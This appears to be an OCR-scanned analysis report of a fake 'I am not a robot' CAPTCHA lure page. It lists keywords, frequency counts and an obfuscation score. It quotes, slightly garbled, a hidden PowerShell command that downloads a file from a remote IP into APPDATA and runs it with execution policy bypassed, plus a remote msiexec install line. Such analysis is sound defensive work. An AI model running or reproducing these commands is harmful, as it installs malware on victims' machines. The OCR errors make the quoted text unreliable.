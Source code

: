 - `command = `powersheii -w h -nop -c "$i=Join-Path $env:APPDATA 'qk59\\\\\\\\dr69t.psi';md (Spiit-Path $i) -ea 0;$h='http://87.i20.i26.i00/names22.wav';iwr $h -OutFiie $i;& powersheii -w h -ep Bypass -f $i"`;`
- `exec(`
- `exec /i https://www.aushsi.org.au/msi/ /qn`;`

#### Verification Text
*2 unique keywords*

- `Hidden`
- `hidden`

#### Technical Terms
*4 unique keywords*

- `Bypass`
- `mshta`
- `Ray ID`
- `iex`

### Most Frequent Keywords

- **robot**: 9 occurrences
- **hidden**: 9 occurrences
- **CAPTCHA Verification**: 6 occurrences
- **I am not a robot**: 6 occurrences
- **Robot**: 6 occurrences
- **Verification**: 6 occurrences
- **verification-id**: 6 occurrences
- **verification**: 5 occurrences
- **To better prove you are not a robot**: 5 occurrences
- **Verification ID**: 5 occurrences
- **exec(**: 3 occurrences
- **verification_id**: 3 occurrences
- **Ray ID**: 3 occurrences
- **Checking if you are human**: 3 occurrences
- **Verify you are human**: 3 occurrences

### Similar Keyword Patterns

*Groups of keywords that appear to be variations of the same theme:*

**Group 1**: `robot`, `Robot`

**Group 2**: `hidden`, `Hidden`

**Group 3**: `CAPTCHA Verification`, `Verification`, `verification`

**Group 4**: `Verification Hash`, `verification-id`, `verification_id`, `Verification ID`

**Group 5**: `Verify You Are Human`, `Checking if you are human`, `Verify you are human`

## JavaScript Obfuscation Analysis

**Obfuscation Sophistication Score**: 0/7
